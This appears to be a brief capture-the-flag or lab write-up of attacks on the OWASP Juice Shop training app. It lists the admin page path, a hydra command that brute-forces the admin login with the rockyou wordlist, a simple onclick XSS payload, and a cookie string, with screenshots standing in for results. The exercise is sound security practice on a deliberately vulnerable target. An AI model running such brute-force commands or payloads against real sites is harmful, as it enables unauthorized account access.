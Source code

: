 1- The admin path (https://juiceshop.herokuapp.com/#/administration)

![1](https://github.com/user-attachments/assets/f91dcc9a-6021-4f38-900f-5622a5d09f1e)

2-(hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F


![2](https://github.com/user-attachments/assets/baf1599e-4d43-477c-b2bb-3893bbdaef7b)


3- this is the payload(<a href="#"  onclick="alert('XSS')">  OFFERS!!!  <//a>)


![3](https://github.com/user-attachments/assets/c5f49dfa-79d9-4c9d-a00a-07bbb9048728)



4-The cookie: (language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss)



![Capture](https://github.com/user-attachments/assets/3989a1c8-5807-432e-91e3-98d2e09b8209)
